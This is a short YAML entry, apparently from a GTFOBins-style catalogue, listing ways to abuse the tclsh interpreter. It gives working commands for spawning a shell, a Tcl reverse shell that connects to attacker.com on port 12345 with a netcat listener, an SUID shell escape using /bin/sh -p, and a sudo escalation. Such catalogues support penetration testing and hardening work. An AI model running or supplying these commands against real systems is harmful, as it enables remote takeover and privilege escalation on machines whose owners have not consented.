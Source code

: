 ```yaml
---
name: tclsh
functions:
  shell:
    - code: |
        tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
  suid:
    - code: |
        ./tclsh
        exec /bin/sh -p <@stdin >@stdout 2>@stderr
  sudo:
    - code: |
        sudo tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
---
```

